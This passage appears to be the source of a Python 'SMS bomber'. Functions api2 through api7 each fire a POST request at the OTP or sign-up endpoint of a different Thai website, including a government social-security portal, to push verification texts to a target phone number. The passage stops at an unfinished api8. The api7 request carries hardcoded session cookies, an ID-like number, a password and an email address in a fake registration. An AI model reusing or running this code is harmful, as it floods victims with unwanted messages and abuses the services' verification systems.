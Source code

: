 def api2(phone):

    headers = {

        "content-type": "application/x-www-form-urlencoded",

        "user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36",

        "referer": "https://www.wongnai.com/guest2?_f=signUp&guest_signup_type=phone",

        "cookie": "_gcl_au=1.1.1123274548.1637746846"

        }

    post("https://www.wongnai.com/_api/guest.json?_v=6.054&locale=th&_a=phoneLogIn",headers=headers,data=f"phoneno={phone}&retrycount=0")

    

def api3(phone):

    post("https://gettgo.com/sessions/otp_for_sign_up", data={"mobile_number":phone})

    

def api4(phone):

    post("https://api.true-shopping.com/customer/api/request-activate/mobile_no", data={"username": phone})

    

def api5(phone):

    post("https://www.msport1688.com/auth/send_otp", data={"phone":phone})

    

def api6(phone):

    post("http://b226.com/x/code", data={f"phone":phone})

def api7(phone):

    post('https://www.sso.go.th/wpr/MEM/terminal/ajax_send_otp',headers = {"User-Agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36","Content-Type": "application/x-www-form-urlencoded; charset=UTF-8","X-Requested-With": "XMLHttpRequest","Cookie": "sso_local_storeci_sessions=KHj9a18RowgHYWbh71T2%2FDFAcuC2%2FQaJkguD3MQ1eh%2FlwrUXvpAjJgrm6QKAja4oe7rglht%2BzO6oqblJ4EMJF4pqnY%2BGtR%2F0RzIFGN0Suh1DJVRCMPpP8QtZsF5yDyw6ibCMf2HXs95LvAMi7KUkIeaWkSahmh5f%2F3%2FqcOQ2OW5yakrMGA1mJ5upBZiUdEYNmxUAljcqrg7P3L%2BGAXxxC2u1bO09Oz4qf4ZV9ShO0gz5p5CbkE7VxIq1KUrEavn9Y%2BarQmsh1qIIc51uvCev1U1uyXfC%2F9U7uRl7x%2FVYZYT2pkLd3Q7qnZoSNBL8y9wge8Lt7grySdVLFhw9HB68dTSiOm1K04QhdrprI7EsTLWDHTgYmgyTQDuz63YjHsH5MUVanlfBISU1WXmRTXMKbUjlcl0LPPYUR9KWzrVL7sXcrCX%2FfUwLJIU%2F7MTtDYUx39y1CAREM%2F8dw7AEjcJAOA%3D%3D684b65b9b9dc33a3380c5b121b6c2b3ecb6f1bec; PHPSESSID=1s2rdo0664qpg4oteil3hhn3v2; TS01ac2b25=01584aa399fbfcc6474d383fdc1405e05eaa529fa33e596e5189664eb7dfefe57b927d8801ad40fba49f0adec4ce717dd5eabf08d7080e2b85f34368a92a47e71ef07861a287c40da15c0688649509d7f97eb2c293; _ga=GA1.3.1824294570.1636876684; _gid=GA1.3.1832635291.1636876684"},data=f"dCard=1358231116147&Mobile={phone}&password=098098Az&repassword=098098Az&perPrefix=Mr.&cn=Dhdhhs&sn=Vssbsh&perBirthday=5&perBirthmonth=5&perBirthyear=2545&Email=nickytom5879%40gmail.com&otp_type=OTP&otpvalue=&messageId=REGISTER")

    

def api8(phone):
